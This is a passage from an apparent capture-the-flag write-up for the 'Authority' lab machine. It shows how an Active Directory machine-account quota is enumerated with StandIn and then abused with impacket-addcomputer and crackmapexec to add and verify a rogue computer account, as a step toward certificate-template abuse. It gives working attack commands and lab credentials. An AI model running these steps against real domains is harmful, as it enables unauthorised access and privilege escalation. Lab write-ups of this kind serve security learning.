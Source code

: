 Alternatively if we didn't have credentials, we could drop [StandIn](https://github.com/FuzzySecurity/StandIn){:target="_blank"} to disk and enumerate the quota that way:

```shell
*Evil-WinRM* PS C:\windows\tasks> .\StandIn_v13_Net45.exe --object ms-Ds-MachineAccountQuota=*
[?] Using DC : authority.authority.htb
[?] Object   : DC=authority
    Path     : LDAP://DC=authority,DC=htb
[?] Iterating object properties
...
[+] ms-ds-machineaccountquota
    |_ 10
```

### Adding a new machine to the domain
So we can use our `svc_ldap` user to add a computer object to the domain, with a username and password we specify - did someone say free credentials? Further, by default machine accounts created through `MAQ` are added to the `Domain Computers` group, which is exactly what we need to enrol into the `CorpVPN` template to allow us to specify a `SAN`.  

We can use use impacket's [addcomputer.py](https://tools.thehacker.recipes/impacket/examples/addcomputer.py){:target="_blank"} to remotely add a computer `EvilComputer$` to the domain, then check it exists\!

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-addcomputer -computer-name 'EvilComputer$' -computer-pass 'SomePassword' -dc-host authority.htb -domain-netbios AUTHORITY 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'   
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Successfully added machine account EvilComputer$ with password SomePassword.[*] Successfully added machine account EvilComputer$ with password SomePassword.

┌──(kali㉿kali)-[~/Desktop]┌──(kali㉿kali)-[~/Desktop]
└─$ crackmapexec smb authority.htb -u 'EvilComputer$' -p 'SomePassword'                                                                 
SMB         authority.htb   445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         authority.htb   445    AUTHORITY        [+] authority.htb\EvilComputer$:SomePassword
```

![image-18.png](/assets/img/Authority/image-18.png)

We see it is added to the `Domain Computers` group - just what we want\!

```shell
*Evil-WinRM* PS C:\windows\tasks> net group "domain computers" /domain
```

![image-4.png](/assets/img/Authority/image-4.png)
